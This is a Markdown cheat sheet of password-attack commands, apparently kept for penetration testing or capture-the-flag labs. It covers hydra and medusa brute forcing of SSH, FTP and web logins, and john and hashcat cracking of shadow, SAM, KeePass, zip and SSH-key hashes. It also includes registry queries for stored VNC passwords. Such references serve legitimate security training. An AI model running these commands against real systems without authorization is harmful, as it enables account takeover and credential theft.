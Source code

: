 # Cheetsheet

## Finding Passwords
```
grep -rl hash
grep -rl password
```

## Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

## Password Cracking
```
john hashes.txt
```

## Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

## FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

## HTTP Post
```
hydra -l none -P rockyou.txt 10.10.10.43 http-post-form
"/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

## SSH

```
hydra -L usernames.txt -P passwords.txt -s 2222 ssh://10.10.10.66 -v -t 4
```

## Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

## Salted Hash Cracking

### oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```

## RSA Private Key Password Recovery

```
ssh2john id_rsa > id_john
john id_john --wordlist=<PATH TO ROCKYOU.TXT>
```

## KeePass Password Recovery

```
keepass2john jeeves.kdbx > jeeves.hash
john jeeves.hash
```

## /etc/passwrd format

- [Understanding /etc/passwd File Format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
- [Linux Password & Shadow File Formats](https://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/shadow-file-formats.html)
- Password Field
  - Format: `$id$salt$hashed` (`$id$$hashed` means no salt)
  - `*` account cannot be used to log in
  - `!!` user doesn't have a password
  - ` ` user doesn't have a password
  - `x` password is stored in the shadow file
  - id
    - `$1$` is MD5
    - `$2a$` is Blowfish
    - `$2y$` is Blowfish
    - `$5$` is SHA-256
    - `$6$` is SHA-512

Verify
```
pwck -r /etc/passwd
pwck -r /etc/shadow
```

Edit
```
vipw -p
vipw -s
vipw -g
```

Manually create password
```
openssl passwd -1 -salt xyz  yourpass
makepasswd --clearfrom=- --crypt-md5 <<< YourPass
mkpasswd  -m sha-512 -s <<< YourPass
echo -e "md5crypt\npassword" | grub | grep -o "\$1.*"
perl -e 'use Crypt::PasswdMD5; print unix_md5_crypt("Password", "Salt"),"\n"'
```

Update password
```
echo "username:password" | chpasswd
```
```
perl -e 'print crypt("YourPasswd", "salt"),"\n"'
echo "username:encryptedPassWd"  | chpasswd -e
OR
useradd -p 'encryptedPassWd'  username
```

## VNC

```
reg query HKLM\SOFTWARE\RealVNC\vncserver
Value: Password

reg query HKCU\Software\TightVNC\Server
Value: Password or PasswordViewOnly

reg query HKLU\Software\TigerVNC\WinVNC4
reg query HKLM\Software\TigerVNC\WinVNC4
Value: Password

C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```












## Crack Linux Hash
```
unshadow passwd.txt shadow.txt > hashes.txt
john —wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

## Cisco hashes
```
python3 cisco_pwdecrypt.py -u "\$1\$pdQG\$o8nrSzsGXeaduXrjlvKc91" -d /usr/share/wordlists/rockyou.txt
```

## To Decrypt gpg files:
```
gpg —batch —passphrase whateverThePasswordIs-d theGPGfile
```

## SAM files
```
either in C:\windows\system32\config\sam or C:\windows\repair\sam - (THIS WILL NOT ALWAYS CONTAIN COMPLETE OR UP TO DATE LISTINGS)
will be encrypted 128bit rivest cipher - the key to syskey utility is called "bootkey" which is stored in system file which is in C:\windows\repair\system
after this we use samdump2 to both get the syskey from system file and use that to decrypt the hashes from uncle Sam (bless his cotton socks)
example: samdump2 system_file sam_file

After this you can run hashes through johnny boi
john <outputfile.txt>
```

## If you see the below header after running strings, it has been encoded with steganography
56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz

To decrypt the file I use steghide
steghide extract -sf <OR> info <image.jpg> NOTE that it will always ask for a passphrase! this does not mean it HAS one, try enter!

## WordPress Hash example:
```
$P$B9wJdX0NkO95U2L.kqAGXsFufwSp5N1
hashcat —force -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```

## SSH key bruteforce
```
To bruteforce pubkey grep -lr against one of the folders from here: https://github.com/g0tmi1k/debian-ssh/tree/master/common_keys

dsa = 1024
rsa = 2048
```

## Zip files
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <file_name>
zip2john file.zip > file.zip.hash
john -w:/usr/share/wordlists/rockyou.txt file.zip.hash
```

## SSH2john
```
/usr/share/john/ssh2john.py id_rsa > ssh.hash
john -w:/usr/share/wordlists/rockyou.txt ssh.hash
```

## List of known/common passwords or keywords through cewl?
```
Narrow them down into a custom wordlist

grep -i hentai /usr/share/wordlists/rockyou.txt > pass.lst
grep -i pokemon /usr/share/wordlists/rockyou.txt » pass.lst
grep -i monkey /usr/share/wordlists/rockyou.txt » pass.lst
grep -i startrek /usr/share/wordlists/rockyou.txt » pass.lst
```